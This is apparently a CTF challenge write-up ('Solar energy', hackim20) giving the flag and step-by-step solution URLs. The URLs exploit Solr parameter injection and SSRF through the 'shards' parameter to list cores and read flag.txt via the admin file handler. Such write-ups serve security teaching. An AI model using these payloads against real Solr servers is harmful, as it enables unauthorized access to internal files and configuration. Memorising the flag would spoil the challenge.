 # name:Solar energy 
description: Can you mismatch energy? 

# flag: hackim20{Content_Mismatch_helps_you_all_the_Time}

# solution
- Detect solr injection with " or : (many special chars also raise the error)
- SSRF with shards to local:8939
- Find other cores available with localhost:8080/search.php?search=a%26shards=http://localhost:8983/solr/admin%26qt=/cores?wt=text  (wt=text creates a content mismatch and the response is printed )
- You find the secret core - SeCrEtSeArCh8888
- Listing all the config files in that core- http://localhost:8080/search.php?search=a%26shards=http://localhost:8983/solr/SeCrEtSeArCh8888/admin%26qt=/file?wt=text  
- Getting the flag - http://localhost:8080/search.php?search=a%26shards=http://localhost:8983/solr/SeCrEtSeArCh8888/admin%26qt=/file?wt=text%26contentType=text%2Fplain;charset%3Dutf-8%26file=flag.txt

#Installation
- ./start.sh
